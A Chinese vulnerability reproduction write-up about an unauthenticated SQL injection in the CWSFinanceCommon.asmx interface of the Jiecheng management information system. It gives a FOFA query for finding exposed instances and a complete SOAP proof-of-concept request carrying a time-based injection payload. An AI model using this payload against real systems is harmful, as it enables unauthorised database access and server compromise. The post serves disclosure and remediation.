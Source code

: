 
# 捷诚管理信息系统 SQL 注入漏洞复现

### 0x01 产品简介

   捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业[有效的](https://so.csdn.net/so/search?q=%E6%9C%89%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)开展内部审批工作。

### 0x02 漏洞概述

  捷诚管理信息系统 CWSFinanceCommon.asmx 接口存在[SQL 注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)。未经身份认证的攻击者可以通过该漏洞获取数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：body="/Scripts/EnjoyMsg.js"

![](assets/1700701137-18db7c23ade59d093a65ba84eae25764.png)

### 0x04 漏洞复现 

PoC

```http
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>1';WAITFOR DELAY '0:0:5'--+</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope>
```

 延时 5 秒![](assets/1700701137-2c62cb54c004380094cade0c2cefb219.png)

sqlmap 验证

![](assets/1700701137-9c244e4a842faf177d3ba317fa479566.png)

### 0x05 修复建议

关闭该功能页面或接口处设置外部访问权限

升级至安全版本

